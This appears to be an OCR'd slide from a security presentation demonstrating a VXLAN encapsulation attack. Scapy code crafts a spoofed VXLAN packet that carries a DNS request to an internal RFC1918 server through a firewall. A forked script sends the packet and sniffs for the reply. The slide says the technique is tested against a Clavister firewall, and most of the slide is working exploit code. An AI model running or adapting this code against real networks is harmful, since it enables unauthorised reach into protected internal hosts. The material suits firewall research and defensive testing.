 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
{\footnotesize Attacker can send UDP DNS request to inside server on RFC1918 destination\\
Note: server has no external IP or incoming ports forwarded.\\
Tested working with Clavister with DNS UDP probes/requests, no inspection }



First create VXLAN header and inside packet
\begin{verbatim}
vxlanport=4789     # RFC 7384 port 4789, Linux kernel default 8472
vni=37             # Usually VNI == destination VLAN
vxlan=Ether(dst=routermac)/IP(src=vtepsrc,dst=vtepdst)/
   UDP(sport=vxlanport,dport=vxlanport)/VXLAN(vni=vni,flags="Instance")
broadcastmac="ff:ff:ff:ff:ff:ff"
randommac="00:51:52:01:02:03"
attacker="185.27.115.666"
destination="10.0.0.10"
# port is the one we want to contact inside the firewall
insideport=53
testport=54040
packet=vxlan/Ether(dst=broadcastmac,src=randommac)/IP(src=attacker,
    dst=destination)/UDP(sport=testport,dport=insideport)/
    DNS(rd=1,id=0xdead,qd=DNSQR(qname="www.wikipedia.org"))
\end{verbatim}

{\footnotesize Fun fact, Unbound on OpenBSD reply to DNS requests received in Ethernet packets with broadcast destination and IP destination being the IP of the server}




Send and then wait for something, not from same IP bc from\\
inside NAT, but port should be OK
\begin{verbatim}
pid = os.fork()
if pid:
    print "parent: setting up sniffing"
    # Wait for UDP packet
    data = sniff(filter="udp and port 54040 and net 192.0.2.0/24", count=1)
else:
    time.sleep(10)
    print "child: sending packet"
    sendp(packet,loop=0)
    print "child: closing"
    sys.exit(0)
data[0].show()
\end{verbatim}

Source port in the inside request packet, becomes the destination port in replies from the server - 54040



\begin{quote}
\centerline{\Large $\heartsuit$ love internet packets $\heartsuit$}
\end{quote}
\end{document}
